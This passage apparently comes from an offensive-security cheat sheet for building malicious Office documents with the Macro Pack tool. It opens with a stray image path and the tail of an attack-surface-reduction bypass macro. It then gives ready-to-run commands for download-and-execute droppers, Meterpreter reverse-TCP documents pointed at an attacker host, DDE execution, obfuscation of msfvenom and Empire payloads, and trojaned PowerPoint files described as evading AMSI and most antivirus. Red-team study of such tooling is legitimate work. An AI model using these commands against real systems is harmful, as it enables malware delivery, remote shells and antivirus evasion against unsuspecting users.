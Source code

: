 ```ps1
    ASR_bypass_create_child_process_rule5
End Sub
```


## DOCM/XLM - Macro Pack - Macro and DDE

> Only the community version is available online.

* git clone https://github.com/sevagas/macro_pack
* https://github.com/sevagas/macro_pack/releases/download/v2.0.1/macro_pack.exe

```powershell
# Options
-G, --generate=OUTPUT_FILE_PATH. Generates a file. 
-t, --template=TEMPLATE_NAME    Use code template already included in MacroPack
-o, --obfuscate Obfuscate code (remove spaces, obfuscate strings, obfuscate functions and variables name)

# Execute a command
echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl

# Download and execute a file
echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls

# Meterpreter reverse TCP template using MacroMeter by Cn33liz
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm

# Drop and execute embedded file
macro_pack.exe -t EMBED_EXE --embed=c:\windows\system32\calc.exe -o -G my_calc.vbs

# Obfuscate the vba file generated by msfvenom and put result in a new vba file.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba

# Obfuscate Empire stager vba file and generate a MS Word document:
macro_pack.exe -f empire.vba -o -G myDoc.docm

# Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 

# Execute calc.exe via Dynamic Data Exchange (DDE) attack
echo calc.exe | macro_pack.exe --dde -G calc.xslx

# Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
macro_pack.exe --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.xsl

# PRO: Generate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV).
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --keep-alive  -G  out.docm

# PRO: Trojan a PowerPoint file with a reverse meterpreter. Macro is obfuscated and mangled to bypass AMSI and most antiviruses.
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --trojan -G  hotpics.pptm

# PRO: Generate an HTA payload able to run a shellcode via Excel injection
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE  --run-in-excel -o -G samples\nicepic.hta
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE -o --hta-macro --run-in-excel -G samples\my_shortcut.lnk

```